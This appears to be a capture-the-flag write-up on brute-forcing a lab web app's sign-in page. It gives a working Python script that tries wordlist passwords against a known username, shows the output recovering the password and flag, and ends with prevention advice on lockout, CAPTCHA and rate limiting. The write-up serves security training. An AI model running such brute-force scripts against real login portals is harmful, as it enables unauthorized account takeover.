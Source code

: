 # Description

Visting the signin page, we could not find an sql injection.

Therefore we decide to bruteforce the signin page.

After we exploited the sql and got the users on the Database. We found the username GetThe.

So we will use this use to bruteforce the login and find the flag.

# Attack

I made a python script that bruteforce the login portal with the username `GetThe`

```pyhton
import requests
import argparse

def brute_force(wordlist_path):
    with open(wordlist_path, 'r') as wordlist:
        for line in wordlist:
            password = line.strip()  # Remove newline characters
            print("[+]Trying {0}".format(password))
            response = requests.get('http://10.14.59.83/index.php?page=signin&username=GetThe&password='+password+'&Login=Login')
            if "WrongAnswer" not in response.text:
                print(f"Password found: {password}")
                return
    print("Password not found in the provided wordlist")

def main():
    parser = argparse.ArgumentParser(description="Simple brute force script")
    parser.add_argument("wordlist", help="Path to the wordlist file")
    args = parser.parse_args()

    brute_force(args.wordlist)

if __name__ == "__main__":
    main()
```
After we run the script it found the password

```bash
*[main][~/projects/darkly/BruteForce/Ressources]$ python3 Bruteforce.py wordlist.txt 
[+]Trying 12345
[+]Trying abc123
[+]Trying password
[+]Trying computer
[+]Trying 123456
[+]Trying tigger
[+]Trying shadow
Password found: shadow
*[main][~/projects/darkly/BruteForce/Ressources]$ 
```

The password is `shadow`

Now we will try to login to using those creds and get the flag.

Finaly
`The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 `

# Prevention
- **Account Lockout:** Implement an account lockout mechanism that temporarily locks an account after a certain number of unsuccessful login attempts. This helps mitigate brute-force attacks by preventing attackers from continuously trying different passwords.

- **CAPTCHA:** Use CAPTCHA challenges during the login process to differentiate between human users and automated scripts. This can make it significantly harder for attackers to automate brute-force attempts.

- **Rate Limiting:** Implement rate limiting on login attempts. Limit the number of login requests from the same IP address or user within a certain time frame. This can slow down brute-force attacks and discourage attackers.
